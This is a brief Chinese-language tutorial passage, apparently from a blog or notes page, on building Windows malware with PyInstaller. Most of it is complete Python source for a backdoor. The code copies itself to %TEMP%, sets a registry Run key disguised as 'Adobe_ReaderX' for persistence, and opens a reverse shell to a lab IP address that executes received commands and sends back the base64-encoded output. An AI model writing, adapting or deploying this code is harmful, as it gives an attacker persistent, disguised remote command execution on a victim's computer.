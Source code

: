 通过PyInstaller可以制作恶意软件，这里主要是在Windows主机进行的恶意行为。

通过后去注册表的方式获得权限，常见的是修改`Software\Microsoft\Windows\CurrentVersion\Run`:

```python
import sys, base64, os, socket, subprocess
from _winreg import *

def autorun(tempdir, fileName, run):
    # Copy executable to %TEMP%:
    os.system('copy %s %s'%(fileName, tempdir))

    # Queries Windows registry for key values
    # Appends autorun key to runkey array
    key = OpenKey(HKEY_LOCAL_MACHINE, run)
    runkey =[]
    try:
        i = 0
        while True:
            subkey = EnumValue(key, i)
            runkey.append(subkey[0])
            i += 1
    except WindowsError:
        pass

    # Set autorun key:
    if 'Adobe ReaderX' not in runkey:
        try:
            key= OpenKey(HKEY_LOCAL_MACHINE, run,0,KEY_ALL_ACCESS)
            SetValueEx(key ,'Adobe_ReaderX',0,REG_SZ,r"%TEMP%\mw.exe")
            key.Close()
        except WindowsError:
            pass

def shell():
    #Base64 encoded reverse shell
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('192.168.56.1', int(443)))
    s.send('[*] Connection Established!')
    while 1:
        data = s.recv(1024)
        if data == "quit": break
        proc = subprocess.Popen(data, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)
        stdout_value = proc.stdout.read() + proc.stderr.read()
        encoded = base64.b64encode(stdout_value)
        s.send(encoded)
        #s.send(stdout_value)
    s.close()

def main():
    tempdir = '%TEMP%'
    fileName = sys.argv[0]
    run = "Software\Microsoft\Windows\CurrentVersion\Run"
    autorun(tempdir, fileName, run)
    shell()

if __name__ == "__main__":
    main()
```
